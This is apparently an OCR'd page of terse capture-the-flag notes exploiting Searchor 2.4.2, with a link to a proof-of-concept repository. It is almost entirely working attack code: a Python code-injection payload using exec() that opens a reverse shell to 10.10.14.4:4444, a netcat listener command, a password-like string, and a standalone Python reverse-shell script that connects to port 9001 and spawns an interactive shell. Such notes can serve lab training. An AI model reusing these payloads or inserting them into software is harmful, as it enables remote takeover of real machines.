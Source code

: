 [https://github.com/jonnyzar/POC-Searchor-2.4.2](https://github.com/jonnyzar/POC-Searchor-2.4.2)

  

', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.4',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

  

  

nc -lvnp 4444

  

jh1usoih2bkjaspwe92

  

#!/usr/bin/python3

import socket

import subprocess

import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

s.connect(("10.10.14.4",9001))

os.dup2(s.fileno(),0)

os.dup2(s.fileno(),1)

os.dup2(s.fileno(),2)

import pty

pty.spawn("sh")